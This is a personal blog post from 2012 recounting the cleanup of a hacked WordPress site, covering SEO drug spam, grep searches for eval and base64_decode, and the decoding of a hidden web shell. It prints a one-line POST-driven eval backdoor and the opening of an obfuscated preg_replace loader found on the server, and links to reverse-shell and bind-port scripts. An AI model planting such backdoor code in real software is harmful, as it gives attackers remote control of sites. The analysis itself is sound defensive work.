 title: Hacked Server
date: 2012-08-23 08:23

---

Over the weekend I was informed by a friend that a site I maintain (not mine
personally) was showing up in the Google results as being "malicious". After
many hours of research, I present to you the following story.

I'm writing things down as I fix them, so I'm still not sure where this will end.

* * *

After hearing this news, I Googled the site's name (it is distinctive, but
shall remain nameless) and found that it indeed had been flagged by the Googlebot
as having been hacked.

Short backstory: Recently the owners of the site had undergone some serious flack
from a nameless crowd, and had been flagged by this nameless crowd on the
[Web Of Trust (WOT)](https://www.mywot.com/), a site that warns you of unsafe
websites. The WOT is a really good idea, but this nameless group flagged it not
because it was unsafe, but in retaliation. Because of this, I initially thought
that the warning from Google had set off their alarms, so I didn't take it
too seriously.

But throughout the day I had a nagging feeling, that not all was right with the
world, and so I found myself signing up for something that (now that I've used
it) I think everyone who ever runs a website should be required to
use: [Google Webmasters](http://www.google.com/webmasters/).

Let me take a minute to tell you why you should be using this awesome tool. First,
it will give you the actual HTML output that Google sees. As I found out later,
the hacked website was only displaying spam to the Googlebot, so I never found
it in my other searches. The other reason you should use this tool is because
it will check the status of your installed things (WordPress, etc.) and tell you
when you need to update them. This is incredibly convenient.

Anyway, after I setup the site with Google Webmasters, I found out that the site
was spewing out things that look like this (of course I renamed the links):

> `downing <a href="http://site.com">prescription tramadol without</a>`
> `venlafaxine <a href="http://site.com">penegra generic</a>`

I'm being a little obfuscated with the sites contents, but suffice to say that
this is absolutely not the appropriate content for this site, and at that point
I had to deal with the fact that the server had been compromised.

## The Plan

Typically, evidence of a WordPress hack install is found by searching for the two
PHP functions: [base64_decode](http://php.net/manual/en/function.base64-decode.php),
or [eval](http://php.net/manual/en/function.eval.php). So my initial plan was to
search the server for instances of either of those functions using:

	grep -H -r -i 'base64_decode' ~/sitename.com
	grep -H -r -i 'eval' ~/sitename.com</pre>

* `-H` will print the filename instead of the entire line of text where it found the match
* `-r` will search recursively
* `-i` will ignore case, since PHP ignores it we need to do so to have a thorough search

Doing so brought up quite a few `base64_decode` calls, and many false positives for `eval`
but all of them legitimate. Working with the command line over SSH was difficult, so I
tarred the entire site's contents, minus a copious amount of PDF and MP3 files:

	tar cvzf backup.tgz ~/sitename.com<

Now I have the files in hand, I can very quickly scan through the files and see if
anything catches my eye, and the very first thing I noticed is the file named `wp_info.php`

WordPress has a very particular naming scheme with all their files, and it looks
like this: `word-word.php` So an underscore looks a little suspicious, and opening
it I find this magical bit:

	`eval(stripslashes(array_pop($_POST)));`

That command right there will essentially run _anything_ that is thrown at it by a
POST request. Wow, this is nuts. Also, I don't know why I didn't see it in
the `grep` earlier, but there was probably just too much noise to notice it.

That right there is the likely entry point _after_ the hack, but I want to see
if I can find anything else, so I press on. Even though I am pretty familiar
with the WordPress structure, I downloaded a [fresh WordPress](https://wordpress.org/download/)
install to compare. After browsing around a bit, I found a file in
the `wp-content/uploads` folder named `.cache_tofu.php` that I did not
recognize, and on inspection I found the following at the end of it:

	`preg_replace("/.*/e","x65x76x61x6c ... x3b",".");`

Where the dots are I removed about 24,400 characters from the actual thing. I'm not familiar
with the `preg_replace` function, but the [PHP docs](http://www.php.net/manual/en/function.preg-replace.php)
say it is basically `preg_replace(pattern,replacement,subject)` so the code above will
interpret to just the middle part `"x65x76x61x6c ... x3b"`

But if you'll notice, quite a few characters in that set look like `x##` which is the PHP way of
noting characters in [extended unicode](http://www.php.net/manual/en/regexp.reference.unicode.php), so
all you need to do is figure out a way to convert those to normal ASCII and you can read them.

<sarcasm>Thankfully</sarcasm>, PHP [plays loose](https://maurus.net/resources/programming-languages/php/)
with the encoding, so we can simply turn it to a string and it will print out. But because
PHP plays loose, you can't do something as simple as `echo "x65x76x61x6c ... x3b";` because
it will actually evaluate whatever is there, assuming it's an `eval` statement, which is
an obvious assumption at this point. So here's what you do:

	$myFile = "testFile.txt";
	$fh = fopen($myFile, 'w') or die("can't open file");
	$stringData = "x65x76 ... x20x3b";
	fwrite($fh, $stringData);
	fclose($fh);

With that, I finally got what I was looking for: `eval(gzinflate(base64_decode('5b19fxq30jD8...` which
is the standard hack. And now we can unpack the base64 code to see what magic lies
beneath. Again, it probably has some `eval` in it, so just write it to the text file.
Because it uses `gzinflate` we need to do it this way in our above code:
`$stringData = gzinflate(base64_decode('5b19f...` With that, I get a code that is just
over 1,500 lines long: [pastebin](http://pastebin.com/brR6Jh5f) or [hastebin](http://hastebin.com/hipeqoxoho.php).

It's interesting to note that, even within this code, there are...

My jaw just hit the floor.

Remember, I am writing this as I read it. I just saw this: [http://hastebin.com/jekatesegu.dos](http://hastebin.com/jekatesegu.dos)

I think I need some alcohol to calm my nerves, just a minute...

* * *

Alcohol acquired, still a little shook up, going to press on and hope for the best.

So where was I? Oh, right. It is interesting to note that, even within this code, there
are things that are base64 encoded. I'm going to extract them and see what they say.
It looks like they are Perl scripts, here is one which was labeled `back_connect_p`:
[pastebin](http://pastebin.com/7izktDBV) And here is another which was labeled
`bind_port_p`: [pastebin](http://pastebin.com/7yNrfWT0)

Okay, so this is obviously bad, and in more ways than one: 1) have to look
around for more bad files, 2) based on the script, it would be safe to
assume every password associated with this account (servers, etc.) should
be changed, 3) still don't know how this got run.

Let's start on the last thing first. So we have this absolutely soul crushing code (did you
read it yet? did you understand how bad it was?) but we don't know how it's run. Looking
at the code, I realized that to run it, all you'd have to do is access it. It's located
in the WordPress uploads folder, so we can simply navigate to it at
`site.com/wp-content/uploads/the_nameless_file.php` (hidden the name for now) and we get this:

![Password login of control panel](/content/hacked-server/password.png)

Hmmmm. The alcohol is setting in a bit now, and I am starting to feel less like the world
will end, so I am curious what is behind the password? Looking through the code I find
that all it takes is this: `if(md5($_POST['pass']) == 'dcc2630fea8d91fbc38ee0acc48001a6')`
but an md5 lookup is not trivial for me, so I boot up the old
[virtual computer](http://www.unixmen.com/install-lamp-with-1-command-in-ubuntu-1010-maverick-meerkat/)
and run the code directly. Here is the screenshot:

![Control panel](/content/hacked-server/control-panel.png)

This is terrible.

So here is what we have so far: There is a script on this site that lets a person
pretty much do what they want. The question remains, how did the script get
there in the first place?

Of course, since I don't run the site I am not sure what plugins were installed
before, but I am reasonably certain that the people who own the site wouldn't
install a plugin that didn't come from the [WordPress site](https://wordpress.org/extend/plugins/).
This limits the possible entry points quite a bit.

One weak point in the WP framework shows up if someone changes the folder permissions of one of the
folders. This is addressed quite well in [this](https://codex.wordpress.org/Changing_File_Permissions)
article. But nobody except myself has SSH access, and only one person has FTP access. I'll ask him,
but he seems reasonably smart so he probably wouldn't make the permissions crazy.

In fact, I can check whether a file is executable or not using `ls -ls` and it is
not executable. Furthermore, the file itself was last modified in May this year
(2012), although I don't know how long it's been since it was executed. The site
is hosted on a [shared server space](https://dreamhost.com/), which could
even be the problem.

* * *

At this point I am trying to think of solutions. Since all that's run on this server
is the WordPress install, I can essentially just reinstall the site and verify that
nothing is in the database. The uploads folder can be copied over after I check it.
Being intimately familiar with WordPress I've coached a few people through this
process, and even had to run through it once myself, so I know that it's not too difficult.

Still, the annoyance is huge. And I still don't know what caused the security
breach that allowed that terrible code to get installed.

For tonight I think I have the server locked down enough that I can leave it,
but I think I'll probably reinstall WordPress, it's a pretty fast experience.

## Lesson Learned

You should also look for the `eval` function in Unicode, which looks like `x65x76x61x6c`
